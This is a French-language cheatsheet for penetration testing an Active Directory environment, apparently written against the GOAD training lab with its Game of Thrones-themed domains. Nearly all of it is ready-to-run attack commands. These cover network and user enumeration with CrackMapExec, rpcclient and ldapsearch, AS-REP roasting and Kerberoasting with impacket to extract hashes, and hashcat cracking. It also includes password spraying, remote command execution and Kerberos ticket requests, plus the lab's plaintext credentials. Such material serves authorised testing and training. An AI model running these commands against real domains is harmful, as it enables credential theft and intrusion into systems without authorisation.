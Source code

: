 # Cheatsheet à destination d'un test de pénétration sur un environnement Active Directory

## La reconnaissance / prise d'informations :
### Installation crackmapexec sur Kali Linux :
    sudo apt install crackmapexec

### Scan CrackMapExec sur une range IP :
    crackmapexec smb 10.202.0.0/16

### Scan CrackMapExec sur une IP :
    crackmapexec smb 10.202.150.150

### Enumération avec nslookup :
    nslookup -type=srv _ldap._tcp.dc._msdcs.sevenkingdoms.local 192.168.56.10

### Scan Nmap complet :
    nmap -Pn -p- -sC -sV -oA 10.202.150.150

### Enumération anonymme des comptes présents dans l'AD :
    crackmapexec smb 10.202.150.150 --users

### Utilisation enum4linux :
    enum4linux 10.202.150.150

### Enumération avec le protocole RPC :
    rpcclient -U "NORTH\\" 10.202.150.150 -N
        > enumdomusers
        > enumdomgroups

### Enumération des utilisateurs d'un domaine :
    net rpc group members 'Domain Users' -W 'NORTH' -I '10.202.150.150' -U '%'

### Lister les partages SMB en tant qu'anonyme :
    crackmapexec smb 10.202.150.150 -u 'a' -p '' --shares

### Lister les utilisateurs AsrepRoastable sans compte au préalable :
    GetNPUsers.py north.sevenkingdoms.local/ -no-pass -usersfile users.txt # users.txt rempli avec des noms de comptes probables

### Enumérer les utilisateurs d'un AD avec un compte valide :
    GetADUsers.py -all north.sevenkingdoms.local/brandon.stark:iseedeadpeople 

### Enumérer les utilisateurs de l'AD avec un compte valide (LDAP) :
    ldapsearch -H ldap://192.168.56.11 -D "brandon.stark@north.sevenkingdoms.local" -w iseedeadpeople -b 'DC=north,DC=sevenkingdoms,DC=local' "(&(objectCategory=person)(objectClass=user))" |grep 'distinguishedName:'



## Attaques Kerberos :

### AsrepRoasting :
### On récupére les users Asreproastable :
    cd /opt/impacket/examples && sudo python3 GetNPUsers.py -request -dc-ip IP_AD sevenkingdoms.local/user:motdepasse

### Pour récupérer le Hash d'un user Asreproastable :
    sudo python3 GetNPUsers.py -request -dc-ip IP_AD sevenkingdoms.local/user:motdepasse -request-user jon.snow

### On le cracke ensuite avec hashcat :
    hashcat -m 18200 -a 0 hash.txt rockyou.txt

### Accéder à des informations avec le compte :
    crackmapexec smb IP_AD -u 'jon.snow' -p 'motdepasse' -d sevenkingdoms.local -x 'dir C:\Users'

### Kerberoast :
### On commence par énumérer les utilisateurs vulnérables au kerberoast :
    cd /opt/impacket/examples && sudo rdate -n north.sevenkingdoms.local && sudo python3 GetUserSPNs.py -request -dc-ip 10.202.0.118 north.sevenkingdoms.local/brandon.stark:iseedeadpeople

### On récupère le hash d'un utilisateur précis vulnérable :
    cd /opt/impacket/examples && sudo rdate -n north.sevenkingdoms.local && sudo python3 GetUserSPNs.py -request -dc-ip 10.202.0.118 north.sevenkingdoms.local/brandon.stark:iseedeadpeople -request-user jon.snow -outputfile kerbe.hash && clear && echo "Voici le hash récupéré : $(cat kerbe.hash)"

### On lance hashcat pour craquer le hash :
    hashcat -m 13100 --force -a 0 kerbe.hash /usr/share/wordlists/rockyou.txt --force

## Attaques par mots de passe (dictionnaire,bruteforce) :
### Tester si mot de passe == nom d'utilisateur :
    crackmapexec smb 192.168.56.11 -u users.txt -p users.txt --no-bruteforce


## Communication avec Kerberos :
### Intégration à un domaine Kerberos :
    sudo apt install krb5-user && nano /etc/krb5.conf

    > [libdefaults]
    default_realm = essos.local
    kdc_timesync = 1
    ccache_type = 4
    forwardable = true
    proxiable = true
    fcc-mit-ticketflags = true
    [realms]
    north.sevenkingdoms.local = {
        kdc = winterfell.north.sevenkingdoms.local
        admin_server = winterfell.north.sevenkingdoms.local
    }
    sevenkingdoms.local = {
        kdc = kingslanding.sevenkingdoms.local
        admin_server = kingslanding.sevenkingdoms.local
    }
    essos.local = {
        kdc = meereen.essos.local
        admin_server = meereen.essos.local
    }
    ...

### Demander un ticket TGT avec un user valide :
    cd /opt/impacket/examples && sudo rdate -n north.sevenkingdoms.local && sudo python3 getTGT.py essos.local/khal.drogo:horse

### Le stocker : 
    export KRB5CCNAME=/workspace/khal.drogo.ccache 

### Lister fichier avec smb :
    smbclient.py -k @braavos.essos.local

# Attaques à approfondir :
https://mayfly277.github.io/posts/GOADv2-pwning-part5/
https://mayfly277.github.io/posts/GOADv2-pwning-part6/
https://mayfly277.github.io/posts/GOADv2-pwning-part7/
https://mayfly277.github.io/posts/GOADv2-pwning-part8/
https://book.hacktricks.xyz/windows-hardening/stealing-credentials/credentials-mimikatz